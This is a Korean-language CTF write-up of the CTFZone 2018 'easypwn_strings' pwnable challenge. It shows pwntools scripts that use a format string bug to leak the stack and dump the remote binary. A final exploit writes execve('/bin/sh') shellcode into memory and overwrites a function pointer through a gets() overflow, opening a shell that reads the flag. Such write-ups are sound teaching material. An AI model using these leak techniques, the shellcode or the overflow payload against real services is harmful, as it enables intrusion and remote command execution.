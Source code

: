 ```yaml
---
layout: post
title: "[CTFZone 2018] easypwn_strings Write-up"
image: /img/ctfzone_2018.png
tags: [CTF, write-up, pwnable]
---
```


<style>
.effect {
      display: inline-block;
      box-shadow: 0px 0px 20px -5px rgba(0, 0, 0, 0.8);
}
</style>

## 요약
`pwnable` `FSB`

---
### Vuln

> nc pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one 1234

```
Let's choose string operation!
	1. StrLen
	2. SubStrRemove
	3. StrRemoveLastSymbols
```
1번 메뉴를 선택하고 문자열을 입력하면 문자열의 길이가 출력되고, 3번 메뉴를 선택하고 문자열과 숫자를 입력하면 해당 문자열의 뒤에서 입력한 숫자 만큼을 잘라서 출력해준다. 2번 메뉴는 구현되어 있지 않았다.
```
You choise - 3
	Use str int
	good choise
	Set string:
%x
	Set number:
0
	Delete 0 ending symbols
	Result:
ff906700
```
3번 메뉴에서 문자열을 출력할 때 `포맷 스트링 버그 (FSB)` 가 발생한다.
<br><br><br>

### Solve
포맷 스트링 버그를 이용해서 스택에 있는 값들을 출력한다.
```python
from pwn import *

for j in range(0, 20):
        r = remote('pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one', 1234)

        r.recvuntil('StrRemoveLastSymbols')
        r.recvuntil('\n')
        r.sendline('3')
        r.recvuntil(':')
        r.recvuntil('\n')

        test = ''
        for i in range(j*20,j*20+20):
                test += '%%%d$p.' % i

        print test
        r.sendline(test)
        r.recvuntil(':')
        r.sendline('0')
        r.recvuntil(':')
        r.recvuntil('\n')
        d = r.recvuntil('\n')
        print d
```
```
[+] Opening connection to pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one on port 1234: Done
%200$p.%201$p.%202$p.%203$p.%204$p.%205$p.%206$p.%207$p.%208$p.%209$p.%210$p.%211$p.%212$p.%213$p.%214$p.%215$p.%216$p.%217$p.%218$p.%219$p.
0x80496d4.0xf77b7000.0xffeac818.0x8048e07.0x1.0xffeac8c4.0x3.0x33.0xf77b73dc.0xffeac830.(nil).0xf761d637.0xf77b7000.0xf77b7000.(nil).0xf761d637.0x1.0xffeac8c4.0xffeac8cc.(nil).
```
출력 된 값들을 살펴보면 0x80496d4 나 0x8048e07 과 같이 코드 영역의 주소로 보이는 값들을 발견할 수 있었고, 이를 토대로 <span style="color:#cf3030">0x8048000</span> 을 <span style="color:#cf3030">base address</span> 로 설정하여 바이너리 덤프를 시도했다.
<br>
그 결과는 다음과 같다.
```
0000000: 0045 4c46 0101 0100 0000 0000 0000 0000  .ELF............
0000010: 0200 0300 0100 0000 2086 0408 3400 0000  ........ ...4...
0000020: 6c3b 0000 0000 0000 3400 2000 0700 2800  l;......4. ...(.
0000030: 2000 1d00 0600 0000 3400 0000 3480 0408   .......4...4...
0000040: 3480 0408 e000 0000 e000 0000 0500 0000  4...............
0000050: 0400 0000 0300 0000 1401 0000 1481 0408  ................
...
```
ELF 시그니쳐로 보이는 `00(7F)45 4c46` 로 시작된다. 이렇게 쭉 덤프를 뜨면 되는데 중간에 null 바이트가 많아서 너무 오래걸린다. ELF 헤더 중 0x18 오프셋 부분을 보면 <span style="color:#cf3030">0x08048620</span> 이라는 값이 쓰여있는데 이 값이 <span style="color:#cf3030">엔트리 포인트</span>의 메모리 주소이다.<br>
이 주소를 시작으로 코드 섹션만 덤프 떠올 수 있다.
```python
from pwn import *

def conn():
        return remote('pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one', 1234)

def dump(adr,frmt='p'):
        r.recvuntil('StrRemoveLastSymbols')
        r.recvuntil('\n')
        r.sendline('3')
        r.recvuntil(':')
        r.recvuntil('\n')

        leak_part = "|%19${}|".format(frmt)
        out = leak_part.ljust(4*10,"A")+"EOF_"+p32(adr)
        r.sendline(out)
        r.sendline('0')
        r.recvuntil('Result:')
        return r.recvuntil("|A")[:-2].split("|")[1]

        start_addr = 0x8048620

        while True:
                try:
                        fd = open("dumped_file","a")
                        r = conn()
                        data = dump(start_addr,'s')
                        print "|0x%08x|%s|" % (start_addr,data)
                        if data == "(null)" or data == "":
                                fd.write("\x00")
                                start_addr += 1
                        else:
                                fd.write(data+"\x00")
                                start_addr += len(data)+1
                        fd.close()
                except:
                        print "[!] execption"
                        break
```
<img src="/img/ctfzone_easypwn_1.PNG" class="effect">
<br><br><br>

덤프 뜬 바이너리를 IDA로 열어보면 `1, 2, 3` 메뉴 외에 `X, T, S` 라는 메뉴가 있는 것을 확인 할 수 있다. 하나씩 사용해보면 되는데 그 중에서도 `T` 메뉴를 사용하면 바이너리와 라이브러리를 다운 받을 수 있는 링크를 알려준다.. 개꿀
```
Let's choose string operation!
	1. StrLen
	2. SubStrRemove
	3. StrRemoveLastSymbols
	T
You choise - T
	Cheat ^^
	Are you surprised?? (y or n)
y
https://ctf.bi.zone/files/babypwn
https://ctf.bi.zone/files/babylibc
```
<br>

이제 IDA로 다시 분석!

<img src="/img/ctfzone_easypwn_2.PNG" class="effect">

처음엔 `S` 를 수상하게 보고 포맷 스트링 버그를 이용해서 0x80493E0 의 값을 조작하려고 했지만 메뉴 하나를 실행시키면 프로그램이 끝나는 구조라서 그럴 수 없었다. 대신 `X` 혹은 `T` 메뉴를 사용 했을 시 `gets()` 함수를 통해서 `overflow` 가 발생한다. 0x80492E0 에 값을 쓸 수 있는데, 그 뒤쪽에 있는 0x80493E0 이 <span style="color:#cf3030">함수 포인터</span>로 사용된다. 0x80492E0 에 쉘 코드를 올리고 overflow 를 발생시켜 0x80493E0 을 쉘 코드의 주소로 바꿔주면 끝! (rwx 권한이 있었다)
<br>

```python
from pwn import *

def conn():
	return remote('pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one', 1234)

shellcode="\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

r = conn()
r.sendline("T")
r.sendline(("y"+shellcode).ljust(256,"\x90")+p32(0x80492e0+1))

r.interactive()

```
```
Let's choose string operation!
    1. StrLen
    2. SubStrRemove
    3. StrRemoveLastSymbols
 You choise - T
    Cheat ^^
    Are you surprised?? (y or n)
$ ls
flag.txt
main.c
strings
strings.sh
$ cat flag.txt
ctfzone{e4$Y_pVVn_$Tr1№6_Fu№C}
```
ctfzone{e4$Y_pVVn_$Tr1№6_Fu№C}
<br>

### Ref
https://www.youtube.com/watch?v=XuzuFUGuQv0
https://ko.wikipedia.org/wiki/ELF_%ED%8C%8C%EC%9D%BC_%ED%98%95%EC%8B%9D
